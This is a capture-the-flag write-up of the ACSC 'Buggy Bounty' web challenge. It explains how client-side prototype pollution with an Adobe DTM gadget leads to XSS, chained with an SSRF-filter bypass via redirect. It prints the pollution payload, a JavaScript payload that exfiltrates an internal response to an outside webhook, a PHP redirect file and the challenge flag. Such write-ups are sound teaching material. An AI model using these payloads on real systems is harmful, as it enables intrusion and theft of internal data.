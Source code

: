 ```yaml
---
title: ACSC - [Buggy Bounty]
tags:
  - CTF
  - Write-up
  - web-exploitation
  - acsc
  - nodejs
  - server-side
  - client-side
  - prototype-pollution
  - ssrf
categories:
  - CTF
  - Write Up
---
```

![[Screenshot 2024-03-31 at 19.33.40.png]]
# Prologue
An online CTF competition by ACSC, this competition is qualification for competing in ICC for ASIA category.

![[buggy-bounty.tar.gz]]
# Write Up
## TL;DR Solution

Exploiting prototype pollution to achieve XSS with gadget in Adobe DTM. After that, chaining a Bypass SSRF to get the flag.

## Detailed Explanation

### Initial Analysis

We were given a simple web-app with this directory structure.
![[Screenshot 2024-04-01 at 01.39.36.png]]

The flag location is in the `./reward` application, where the flag is hosted in HTTP

```python
# ./reward/app.py
# 8< -- snip -- >8
@app.route('/bounty', methods=['GET'])
def get_bounty():
    flag = os.environ.get('FLAG')
    if flag:
        return flag
# 8< -- snip -- >8
```

After that, it host a simple bug bounty triaging.
![[Screenshot 2024-04-01 at 01.46.10.png]]

#### Prototype Pollution to XSS
Looking at the file, there's a `arg-1.4.js` which is [vulnerable](https://github.com/BlackFan/client-side-prototype-pollution/blob/master/pp/arg-js.md) to prototype pollution. And we can see, there's `launch-ENa21cfed3f06f4ddf9690de8077b39e81-development.min.js`, we can use this library to use it as [gadget](https://github.com/BlackFan/client-side-prototype-pollution/blob/master/gadgets/adobe-dtm.md) to achieve XSS.


```js
// ./bugbounty/app/routes/routes.js
// 8< -- snip - snip -- >8
router.get("/triage", (req, res) => {
  try {
    if (!isAdmin(req)) { //[1]
      return res.status(401).send({
        err: "Permission denied",
      });
    }
    let bug_id = req.query.id;
    let bug_url = req.query.url;
    let bug_report = req.query.report;

    return res.render("triage.html", {
      id: bug_id,
      url: bug_url,
      report: bug_report,
    });
  } catch (e) {
    res.status(500).send({
      error: "Server Error",
    });
  }
});
// 8< -- snip - snip -- >8
```
These files were loaded in the `/triage` route, which protected by admin (or bot) only [1].


To proof the existence XSS, i need to little bit modify the `isAdmin()` function. 

```
__proto__[src]=data:,alert(1)//
```
![[Screenshot 2024-04-01 at 12.48.54.png]]

#### Bypassing SSRF

There's another suspicious route in this challenge, and it was a `/check_valid_url`.
```js
// ./bugbounty/app/routes/routes.js
// 8< -- snip - snip -- >8
const ssrfFilter = require("ssrf-req-filter");
// 8< -- snip - snip -- >8
router.get("/check_valid_url", async (req, res) => {
  try {
    if (!isAdmin(req)) {
      return res.status(401).send({
        err: "Permission denied",
      });
    }

    const report_url = req.query.url;
    const customAgent = ssrfFilter(report_url); //[2]
    
    request( //[3]
      { url: report_url, agent: customAgent },
      function (error, response, body) {
        if (!error && response.statusCode == 200) {
          res.send(body);
        } else {
          console.error("Error:", error);
          res.status(500).send({ err: "Server error" });
        }
      }
    );
  } catch (e) {
    res.status(500).send({
      error: "Server Error",
    });
  }
});
// 8< -- snip - snip -- >8
```

As we can see, this route limited into admin only. Our input will be filtered with `ssrfFilter` [2]. After that, The input will be on requested by `request` library [3].  

By looking at the library requests, i found there's an open security issue by [Doyensec](https://github.com/request/request/issues/3442)

We can just host a HTTPS web server and redirect it to local network. 
### Exploitation

If we looking at the DOM after prototype pollution, we are actually polluting the `src` in the `script` tag, we can just host a file to prevent any encoding issue.
![[Screenshot 2024-04-01 at 14.31.56.png]]

The JS file
```js
fetch(`/check_valid_url?admin=1&url=https://.ngrok-free.app/`).then((r)=>r.text().then((r)=>window.location=`http://webhook/`+(r)))
```

Host a PHP file to redirect the `request` library into `http://reward:5000/bounty`
```php
<?php
header('Location: http://reward:5000/bounty');
```

As we can see in below snippet, our input isn't sanitized, So, we can make use of this feature to add arbitrary parameter to pollute the client.
```js
// ./bugbounty/app/routes/routes.js
// 8< -- snip - snip -- >8
router.post("/report_bug", async (req, res) => {
  try {
    const id = req.body.id;
    const url = req.body.url;
    const report = req.body.report;
    await visit(
      `http://127.0.0.1/triage?id=${id}&url=${url}&report=${report}`,
      authSecret
    );
  } catch (e) {
    console.log(e);
    return res.render("index.html", { err: "Server Error" });
  }
  const reward = Math.floor(Math.random() * (100 - 10 + 1)) + 10;
  return res.render("index.html", {
    message: "Rewarded " + reward + "$",
  });
});
```

![[Screenshot 2024-04-01 at 21.52.02.png]]

Checking the webhook and we can see the flag
![[Screenshot 2024-04-01 at 21.52.22.png]]

FLAG: `ACSC{y0u_4ch1eved_th3_h1ghest_r3w4rd_1n_th3_Buggy_Bounty_pr0gr4m}`







